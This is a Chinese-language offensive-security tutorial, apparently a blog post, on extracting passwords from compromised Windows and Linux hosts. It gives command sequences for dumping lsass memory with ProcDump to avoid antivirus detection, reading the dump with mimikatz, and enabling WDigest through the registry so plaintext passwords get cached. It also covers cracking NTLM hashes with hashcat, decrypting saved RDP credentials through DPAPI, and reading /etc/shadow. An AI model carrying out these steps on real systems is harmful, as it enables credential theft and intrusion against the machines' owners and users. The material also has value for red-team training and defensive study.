# 1. 前言

关于SSH的密钥问题，本来想着先把关于SSH密钥的破解以及横向移动方式总结出来的，但是网上关于Linux系统横向移动手法，以及利用都太少了，目前也没看到很好的文章，很多问题确实把相关知识点总结了，但是感觉还是有点乱，所以就先把Linux横向移动方式先暂停，暂时不去总结Linux方面的横向移动。

不过关于Linux方面的横向移动还是可以带一下的，因为从系统角度来说，Linux中横向移动的可利用方式确实少，正常情况下Linux系统利用多数都是利用Linux系统中安装的中间件软件等来实现横向移动。

# 2. Windows系统密码提取

在Windows server 2012系统包括之后，微软为了防止明文密码泄露，就推出了一个补丁KB2871997，关闭了wdiges功能。也就是说当系统是Windows 10及Windows server 2012以上的时候，默认在内存缓存中不存储明文密码。

## 2.1. 在线读取

其实这里在线读取也就是使用CS中自带的工具进行hash抓取以及读取明文密码，但是这里可以看到只能读取到hash值，并不是读取到明文密码。



同时可以看到密码位置全部都是null，也就是空，是真实没有密码吗？其实就是由于Windows server 2012的版本问题，导致读取不到明文而已。



## 2.2. 离线读取

通常来说使用mimikatz是会被杀的，而这时候我们可以使用微软官方的工具来进行读取，主要是针对在读取密码的时候被杀，而由于这个工具是微软的工具，所以可以免杀，不会被杀。

[ProcDump](https://learn.microsoft.com/zh-cn/sysinternals/downloads/procdump)

[mimikatz](https://github.com/gentilkiwi/mimikatz)

### 2.2.1. 无存储读取

这里的无存储读取就是和上面差不多就是在正常读取的情况下，无法读取到明文密码。

#### 2.2.1.1. 读取文件

这里首先需要将工具上传到Windows server 2012上面进行运行，如何将运行后的文件导出来，再利用mimikatz进行读取。

```
Procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```



#### 2.2.1.2. 本地解密

当上面命令执行后，会再当前目录出现一个文件名字为：lsass.dmp，当然名字是自己写的，但是后面的后缀是一定的。

这里我们再运行本地的文件，导入密码，在进行读取，这里就是避免了被杀的风险，不过这里并不能读取到明文密码，还是读取的是hash值。

```
mimikatz.exe "sekurlsa::minidump lsass.dmp"
sekurlsa::logonPasswords full
```



### 2.2.2. 有存储读取

关于有存储读取和无存储读取的操作是一样的，只是不同的是，需要管理员进行过登录，由于我演示的时候，采用的是DC就是Windows server 2012，所以导致无法使用激活管理员登陆，所以就不演示的。

总的来说是一模一样的，这里我放一张别人的图片。



## 2.3. 解决高版本

在前面一直说高版本无法读取明文密码，那么该怎么办，其实这里可以通过修改注册表来实现，然后强制锁屏，等待管理员重新登陆账号密码。

### 2.3.1. 修改注册表

```
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\ /v UseLogonCredential /t REG_DWORD /d 1
```



### 2.3.2. 重新登陆

这里我们锁屏然后重新登陆，再进行密码抓取，可以看到这里是成功获取到密码了。



## 2.4. HASH破解

当然啦，这里也可以对HASH密码进行破解。

### 2.4.1. 在线破解

在线破解就是通过一些在线网站进行破解，不过有些是需要钱的。

```
https://www.somd5.com/
https://www.cmd5.com/
```



### 2.4.2. 本地破解

关于本地破解，怎么说呢，需要有一个超大的密码本，部分情况下需要强大的CPU与GPU来进行运算。

hashcat是一款`可以`基于显卡暴力破解密码的工具，几乎支持了所有常见的加密，并且支持各种姿势的密码搭配
 在`kali Linux`中自带的有，也支持`Windows Mac`平台

这里我们就简单的来说说用法吧，具体用法可以自行去网上搜索，或者后期有时候来写一篇专门的总结吧！同时要注意哦，我使用了代理依旧下载很吗，所以需要等等。

[hashcat](https://hashcat.net/hashcat/)

#### 2.4.2.1. 字典破解

这里需要将hash值复制进去，pass密码本也要准备好，主要就是看电脑的性能来进行破解了。

```
hashcat.exe -a 0 -m 1000 hash.txt pass.txt
```



#### 2.4.2.2. 暴力破解

暴力破解是能够破解成功的，不过需要超高的CPU与GPU的计算，尤其是一些又长又复杂的密码，下面是密码的组合。

```
-m 密文类型
-a 破解类型
?l 小写
?s 符号
?d 数字
```

这里就需要知道密码是多少位，第一位是大写还是小写，第二位是数字还是字母，我总感觉有点不对劲，实战中我怎么知道第一位是数字还是字母还是大写小写，这有很多组合呀。

比如我这个admin@123，完全是理想化的，写法如下：

```
hashcat.exe -a 3 -m 1000 579da618cfbfa85247acf1f800a280a4 ?l?l?l?l?l?s?d?d?d
```

如果允许不了将上面测试的密码记录删除即可。



## 2.5. RDP凭据抓取

RDP是有一个保存凭据的选项的，正常情况下有些管理员为了方便会勾选凭据。



### 2.5.1. 查看连接记录

这里通过命令可以查看到连接记录。

```
cmdkey /list
```



### 2.5.2. 查找本地的Credentials

将这里的值记录下来。

```
dir /a %userprofile%\appdata\local\microsoft\credentials\*
```



### 2.5.3. 查找guidMasterKey值

这里需要将目标的Credentials记录guidMasterKey值记录下来，还有这里前面的路径一定要更具自己的路径来，不要直接复制粘贴，否则会出现错误。

```
mimikatz dpapi::cred /in:C:\Users\Administrator\appdata\local\microsoft\credentials\6090C0FC3FE42D73866869883B167718
```



### 2.5.4. 记录MasterKey

这里需要将guidMasterKey对应的MasterKey记录下来。

```
mimikatz sekurlsa::dpapi
```



### 2.5.5. 解密票据

这里仔细看命令，是需要相互结合起来的。

```
mimikatz dpapi::cred /in:C:\Users\Administrator\appdata\local\microsoft\credentials\6090C0FC3FE42D73866869883B167718 /masterkey:8a5b068bf179d5617421dc04bd2b310d319badf9d79421e7c0a9bf685317f23b1f7be9666983ca3af76939256c2267ba0d4ab600962e4940fcf09be61d101c1d
```



# 3. Linux系统密码提取

关于Linux系统的密码提前其实是挺少的，而且成功率也低。

## 3.1. 密码读取

这个不一定成功哦，这里我也是运行后一直没反应。

[mimipenguin](https://github.com/huntergregal/mimipenguin)

```
chmod 755 ./mimipenguin.sh
./mimipenguin.sh
```



## 3.2. 密码破解

密码破解其实就是和上面Windows密码破解是一样的。

### 3.2.1. 判断密码类型

这里通过查看root加密来判断类型，我实在是没搜到我这个y是什么加密。

[判断加密类型](https://hashcat.net/wiki/doku.php?id=hashcat)

```
cat /etc/shadow
```

